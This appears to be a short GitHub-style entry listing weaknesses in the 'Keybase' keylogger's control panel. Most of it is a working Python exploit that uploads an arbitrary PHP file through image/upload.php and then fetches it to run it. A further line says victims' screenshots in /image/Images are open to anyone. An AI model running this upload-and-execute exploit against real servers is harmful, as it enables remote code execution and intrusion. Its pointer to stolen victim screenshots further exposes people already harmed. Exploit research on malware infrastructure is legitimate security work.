 #### Keybase


Type: Upload vulnerability

Author: [Unit32](https://twitter.com/Xylit0l)


```
import requests
import sys

if len(sys.argv) != 2:
	print "Usage: %s [php_file]" % __file__
	sys.exit(1)

URL = ""
print "Sending request..."

multiple_files = [('file', ('WIN-JJFOIJGL_6_5_14_22_2.php', open(sys.argv[1], 'rb')))]

r = requests.post(URL + "image/upload.php", files=multiple_files)
print "Results:"
print

r = requests.get(URL + "image/Images/WIN-JJFOIJGL_6_5_14_22_2.php")
print r.text
```


Type: Permissions

```
Anyone can browe /image/Images (screenshots of victims computers)
```
